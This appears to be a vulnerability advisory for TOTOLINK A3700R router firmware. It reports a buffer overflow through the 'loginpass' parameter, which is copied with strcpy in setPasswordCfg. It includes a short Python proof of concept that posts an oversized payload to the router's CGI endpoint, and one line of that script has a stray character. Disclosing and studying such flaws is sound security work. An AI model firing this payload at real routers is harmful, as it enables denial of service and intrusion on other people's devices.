 ## Overview

- Manufacturer's website information：https://www.totolink.net/
- Firmware download address ：https://www.totolink.net/data/upload/20200728/311b3ec5b0a8e61af298aebda158ec9b.zip

## Affected version

A3700R V9.1.2u.5822_B20200513

## Vulnerability details

In the A3700R V9.1.2u.5822_B20200513 firmware has a buffer overflow vulnerability in the `setPasswordCfg` function. In function `setWizardCfg`, the `v3` variable receives the `loginpass` parameter from a POST request. However, since the user can control the input of `loginpass`, the statement `strcpy(v10, v4);` in function  `setPasswordCfg`  can cause a buffer overflow injection vulnerability.

![image-20240719102540863](https://raw.githubusercontent.com/abcdefg-png/images2/main/image-20240719102540863.png)

![image-20240719102527826](https://raw.githubusercontent.com/abcdefg-png/images2/main/image-20240719102527826.png)

## POC

```python
import requests
url = "http://127.0.0.1/cgi-bin/cstecgi.cgi"
cookie = {"Cookie":"SESSION_ID=2:1721039211:2"}
payload = 'a'*0x1000
data = {"topicurl":"setWizardCfg", "loginpass": payload}
response = requests.post(url, cookies=cookie, json=data)
print(response.text)
print(response)a

data = {"topicurl":"setPasswordCfg"}
response = requests.post(url, cookies=cookie, json=data)
print(response.text)
print(response)
```

![image-20240719102729994](https://raw.githubusercontent.com/abcdefg-png/images2/main/image-20240719102729994.png)
